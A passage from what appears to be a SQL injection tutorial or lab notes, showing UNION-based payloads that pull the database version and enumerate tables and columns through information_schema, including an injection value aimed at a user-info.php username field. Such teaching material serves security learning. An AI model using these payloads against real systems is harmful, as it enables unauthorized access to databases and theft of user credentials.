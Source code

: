 For example, you could use a UNION attack with the following input:

```SQL
' UNION SELECT @@version--

'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

## 7. Attempt to determine table(s) names

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (Using Proxy): ' union select null,table_schema AS username,table_name AS password,null from INFORMATION_SCHEMA.TABLES--
```

Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query information_schema.tables to list the tables in the database:

```SQL
SELECT * FROM information_schema.tables
```

This returns output like the following:

```Text
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
=====================================================
MyDatabase dbo Products BASE TABLE
MyDatabase dbo Users BASE TABLE
MyDatabase dbo Feedback BASE TABLE
```

This output indicates that there are three tables, called Products, Users, and Feedback.

You can then query information_schema.columns to list the columns in individual tables:

```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

This returns output like the following:

```Text
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase dbo Users UserId int
MyDatabase dbo Users Username varchar
MyDatabase dbo Users Password varchar
```

This output shows the columns in the specified table and the data type of each column.

### Equivalent to information schema on Oracle
